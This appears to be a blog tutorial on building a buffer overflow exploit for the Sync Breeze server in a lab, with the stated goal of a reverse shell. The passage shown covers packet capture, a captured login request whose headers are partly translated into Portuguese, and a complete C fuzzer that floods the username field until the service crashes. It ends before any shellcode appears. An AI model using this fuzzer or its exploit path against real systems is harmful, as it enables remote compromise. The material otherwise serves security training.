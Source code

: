 ```yaml
---
title: "Exploit Development for Buffer Overflow"
date: 2025-04-06    
categories: [Exploit]
tags: [Reverse]
---
```


# Exploit Development for Buffer Overflow

Hello, in this post I will develop an exploit and simulate a Buffer Overflow (BOF) attack in a practical way.

Objective: trigger a Buffer Overflow, overwrite the return address, and take control of the program’s execution flow, allowing remote access to the target machine through a reverse shell.

Before the practical part, we need to understand how a BOF works. In summary, a Buffer Overflow occurs when a program writes an excessive amount of data into a buffer, exceeding its capacity and overwriting adjacent areas in memory, including the function’s return address. In x86 assembly, when calling a function, the stack expands to save the return address (EIP) and the base pointer (EBP), along with local variables. If a buffer resides on the stack and there is no boundary check, an attacker can input data that exceeds the buffer size, which may result in modifying the EIP, allowing the manipulation of the execution flow and later the execution of a shellcode.

## Understanding the Application:
In the testing environment with Sync Breeze properly configured on Debian 12, we will open it in the browser.

![alt text](https://miro.medium.com/v2/resize:fit:720/format:webp/1*KKyprCZMgPUxKjfd42_plw.png)

With the intention of capturing the requests to start analyzing how the application works, we will use TCPDUMP to understand and capture the network packets.

<pre>sudo tcpdump -i enp5s0 -s0 -w analise_sync.pcap </pre>


While tcpdump captures the network packets, we interact with the application to capture the requests made between the client and the server.

![alt text](https://miro.medium.com/v2/resize:fit:720/format:webp/1*WwHpeS_E_vY8GhzmTxSyAw.png)

![alt text](https://miro.medium.com/v2/resize:fit:720/format:webp/1*fbkcVuCiCAGwKABGwZOTtg.png)

After interacting with the application solely for the purpose of generating network packets and understanding what happens under the hood, we will analyze these packets using a tool called Wireshark, which provides better visibility of the packets.

![alt text](https://miro.medium.com/v2/resize:fit:720/format:webp/1*DswB1tFgeWj8cmIAE_9BAw.png)

We will filter only by the HTTP protocol.

![alt text](https://miro.medium.com/v2/resize:fit:720/format:webp/1*cOhRsQRarjAvy-kvIk03vw.png)

What draws attention at this moment is the POST method, which is accessing /login.

![alt text](https://miro.medium.com/v2/resize:fit:720/format:webp/1*yDp5OKjujv8dqlEADMy4tg.png)

The application has some input fields, which allows us to build a fuzzer to analyze potential vulnerabilities. For that, we will use the following HTTP request header, where we will inject random data and perform tests for our BOF.

<pre>POST /login HTTP/1.1 
Host: 192.168.5.17:8080 
Conexão: keep-alive 
Comprimento do conteúdo: 37 
Controle do cache: max-age=0 
Origem: http://192.168.5.17:8080 
Tipo de conteúdo: application/x-www-form-urlencoded 
Solicitações de atualização inseguras: 1 
Agente do usuário: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, como Gecko) Chrome/134.0.0.0 Safari/537.36 
Aceitar: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7 
Referenciador: http://192.168.5.17:8080/login 
Aceitar-Codificação: gzip, deflate 
Aceitar-Idioma: pt-BR,pt;q=0.9,en-US;q=0.8,en;q=0.7

 username=teste1234&password=senha1234</pre>

## Building and Testing Our Fuzzer:
With the header in hand, we can start building our fuzzer in C language, targeting the /login endpoint. I am breaking the code into parts for better understanding.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <arpa/inet.h>

#define SERVER_IP "192.168.5.17"
#define SERVER_PORT 8080
#define BUFFER_SIZE 4096

int main() {
    int sock;
    struct sockaddr_in server;
    char buffer[BUFFER_SIZE];
    
    for (int fuzz = 100; fuzz <= 2000; fuzz += 100) {
        char *buf = (char *)malloc(fuzz + 1);
        memset(buf, 'A', fuzz);
        buf[fuzz] = '\0';

        char payload[BUFFER_SIZE];
        snprintf(payload, sizeof(payload), "username=%s&password=123456", buf);

        char request[BUFFER_SIZE];
        snprintf(request, sizeof(request),
            "POST /login HTTP/1.1\r\n"
            "Host: %s:%d\r\n"
            "Connection: keep-alive\r\n"
            "Content-Length: %lu\r\n"
            "Cache-Control: max-age=0\r\n"
            "Origin: http://%s:%d\r\n"
            "Content-Type: application/x-www-form-urlencoded\r\n"
            "Upgrade-Insecure-Requests: 1\r\n"
            "User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36\r\n"
            "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7\r\n"
            "Referer: http://%s:%d/login\r\n"
            "Accept-Encoding: gzip, deflate\r\n"
            "Accept-Language: pt-BR,pt;q=0.9,en-US;q=0.8,en;q=0.7\r\n"
            "\r\n"
            "%s",
            SERVER_IP, SERVER_PORT, strlen(payload),
            SERVER_IP, SERVER_PORT,
            SERVER_IP, SERVER_PORT,
            payload);

        if ((sock = socket(AF_INET, SOCK_STREAM, 0)) < 0) {
            perror("Erro ao criar socket");
            free(buf);
            return 1;
        }

        server.sin_family = AF_INET;
        server.sin_port = htons(SERVER_PORT);
        if (inet_pton(AF_INET, SERVER_IP, &server.sin_addr) <= 0) {
            perror("Endereço inválido");
            free(buf);
            close(sock);
            return 1;
        }

        if (connect(sock, (struct sockaddr *)&server, sizeof(server)) < 0) {
            perror("Erro ao conectar ao servidor");
            free(buf);
            close(sock);
            return 1;
        }

        printf("[*] Enviando %d bytes no parâmetro username...\n", fuzz);
        if (send(sock, request, strlen(request), 0) < 0) {
            perror("Erro ao enviar dados");
            free(buf);
            close(sock);
            return 1;
        }

        int bytes_received = recv(sock, buffer, sizeof(buffer) - 1, 0);
        if (bytes_received > 0) {
            buffer[bytes_received] = '\0';
            printf("Resposta:\n%s\n", buffer);
        } else {
            perror("Erro ao receber resposta");
        }

        close(sock);
        free(buf);
    }

    return 0;
}


My fuzzer looks like this, and I will explain some important details about the code. The code performs fuzzing on the username field of an HTTP POST request, sending buffers of different sizes to test possible vulnerabilities in the server.
First, it runs a loop that generates buffers from 100 to 2000 bytes, filled with the letter “A”, using the memset() function. This buffer is then incorporated into the request payload, which contains the username and password fields.
Next, the program builds the HTTP request, including the headers and other necessary components to simulate a legitimate request. It also establishes a TCP socket, allowing communication with the server. If the connection is successful, the HTTP request is sent using the send() function.

By running the fuzzer, it was possible to observe at which point in the payload the application stops responding

![alt text](https://miro.medium.com/v2/resize:fit:720/format:webp/1*Mzpmyv2566f7qW4YkWlANQ.png)